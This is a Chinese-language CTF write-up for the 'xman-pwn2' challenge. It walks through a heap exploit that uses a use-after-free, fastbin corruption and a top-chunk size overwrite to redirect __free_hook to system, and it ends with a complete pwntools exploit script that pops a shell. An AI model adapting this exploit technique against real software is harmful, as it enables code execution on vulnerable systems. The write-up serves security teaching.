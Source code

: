 # 标题

> xman-pwn2

## **原理**
uaf，fastbin attack

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

- 首先通过输出unsorted bin的内容泄漏libc基地址。

```
add(0x88,'a'*0x88)#0
add(0x88,'a'*0x88)#1
delete(0)
show()
p.recvuntil("0 : ")
main_arena=u64(p.recv(6).ljust(8,'\x00'))-0x58
print hex(main_arena)
libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
system=libc_base+libc.symbols['system']
print "system",hex(system)

free_hook=libc_base+libc.symbols['__free_hook']
print hex(free_hook)

```

- 同样的，通过泄漏fastbin的内容来得到heap的地址，同时也能得倒top_ptr的值。

```
add(0x88,'a'*0x88)#2
add(0x20,'a'*0x20)#3
add(0x20,'a'*0x18+p64(0x31))#4
delete(4)
delete(3)
show()
p.recvuntil("3 : ")
heap=u64(p.recv(6).ljust(8,'\x00'))-0x150
print "heap",hex(heap)
edit(3,p64(heap+0x170)+'\n')

top_ptr=heap+0x180
```
- 接下来我们要进行的是一个fastbin attack

```
add(0x20,'/bin/sh\n')#5

#修改top chunk 的size值
add(0x20,'a'*0x8+p64(system+free_hook-top_ptr-1)+'\n')

add(free_hook-top_ptr-0x10,'\n')
#触发free_hook
delete(5)
```
但是，这里有个问题注意一下。为什么add的参数是一个这样的值呢？

是因为在程序中有一个这样的方法：

![](1.png)

这个方法过滤了输入，不能输入libc中的地址值，所以我们将top chunk的size值改成一个这样的值`system+free_hook-top_ptr-1`。这个值很大，当我们再malloc一个`free_hook-top_ptr-0x10`大小的值的时候，会从top chunk中切分。

根据运行机制我们可以得知，接下来 top chunk剩下的大小为：

```
system+free_hook-top_ptr-1 - (free_hook-top_ptr-0x10 +0x10) = system-1
```

同时 top_ptr的指向free_hook

```
top_ptr + free_hook_top_ptr = free_hook
```

这样我们就成功的将free_hook指向 system-1，而bin/sh先前已经被我们放入相应的位置。

这样调用 free函数就可以成功的触发 system。

完整exp：

```
from pwn import *

def add(size,data):
	p.sendlineafter(">> ","1")
	p.sendlineafter("note:",str(size))
	p.sendafter("note:",data)


def edit(index,data):
	p.sendlineafter(">> ","2")
	p.sendlineafter("note:",str(index))
	p.sendafter("note:",data)

def delete(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("note:",str(index))

def show():
	p.sendlineafter(">> ","4")


libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
p=process('./pwn')


add(0x88,'a'*0x88)#0
add(0x88,'a'*0x88)#1
delete(0)
show()
p.recvuntil("0 : ")
main_arena=u64(p.recv(6).ljust(8,'\x00'))-0x58
print hex(main_arena)
libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
system=libc_base+libc.symbols['system']
print "system",hex(system)

free_hook=libc_base+libc.symbols['__free_hook']
print hex(free_hook)


add(0x88,'a'*0x88)#2
add(0x20,'a'*0x20)#3
add(0x20,'a'*0x18+p64(0x31))#4
delete(4)
delete(3)
show()
p.recvuntil("3 : ")
heap=u64(p.recv(6).ljust(8,'\x00'))-0x150
print "heap",hex(heap)
edit(3,p64(heap+0x170)+'\n')
#gdb.attach(p)
top_ptr=heap+0x180

print hex(system+free_hook-top_ptr)
print hex(free_hook-top_ptr)

add(0x20,'/bin/sh\n')#5
add(0x20,'a'*0x8+p64(system+free_hook-top_ptr-1)+'\n')
add(free_hook-top_ptr-0x10,'\n')

#gdb.attach(p)

delete(5)
#gdb.attach(p)

#system+free_hook-top_ptr-1 - (free_hook-top_ptr-0x10 +0x10) = system-1

#top_ptr + free_hook_top_ptr = free_hook
p.interactive()

```
## **参考阅读**

